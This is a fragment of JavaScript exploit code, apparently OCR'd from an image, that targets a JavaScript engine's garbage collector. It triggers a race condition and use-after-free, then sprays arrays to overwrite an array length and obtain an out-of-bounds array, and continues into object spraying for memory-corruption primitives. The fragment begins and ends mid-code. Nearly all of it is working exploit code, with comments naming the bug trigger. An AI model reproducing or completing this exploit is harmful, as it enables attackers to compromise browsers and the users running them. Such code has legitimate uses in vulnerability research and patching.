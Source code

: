 ```javascript
        
        let val = arr[0];                                       // reduce heap constant         
        function gcing() {
            const v15 = new Uint8ClampedArray(120*0x400000);
        }
        
        gcing();                                                // Use After Free trigger - relocate the elements to old space
        for (let v19 = 0; v19 < 500; v19++) {}                  // not sure why ? (time issue ?)
    }
    
    // 4th time is when the race condition happens.
    for(let i=0;i<4;i++){
        bug();
    }

    // Spraying the arr elements pointer to get OOB array.
    let size_search = 0x50;
    let n_size_search = 0x60;
    let arr_search = [];
    let tmparr = new Array(Math.floor(size_search)).fill(9.9);
    let placeholder_obj = [];
    let tmpMarkerArray =  new Array(n_size_search).fill({
      a: placeholder_obj, b: placeholder_obj, notamarker: 0x12341234, floatprop: 9.9
    });
    let tmpfarr= [...tmparr];
    let new_len = 0xffffff;

    for (let i = 0; i < 10000; i++) {
        arr_search.push([...tmpMarkerArray]);
        arr_search.push([...tmpfarr]);
    }
    if(arr[0] != push_obj){
        for(let i=0;i<0x100;i++){
            if(arr[i] == size_search && arr[i+12] == n_size_search){
                arr[i] = new_len;
                break;
            }
        }

        let OOB;
        for(let i=0;i<10000;i++){
            if(arr_search[i].length == new_len){
                OOB = arr_search[i];
                print("OOB array found in the spray");
                break;
            }
        }

        let objarr = [];
        for(let j=0;j<10000;j++){
            let local_findme = {
                a: placeholder_obj, b: placeholder_obj, findme: 0x11111111, floatprop: 1.337, findyou:0x12341234
            };
            objarr.push(local_findme);
            function gcing(){
                const r = new String("Hello GC?");
            }
            gcing();
        }

        let marker = -1;
```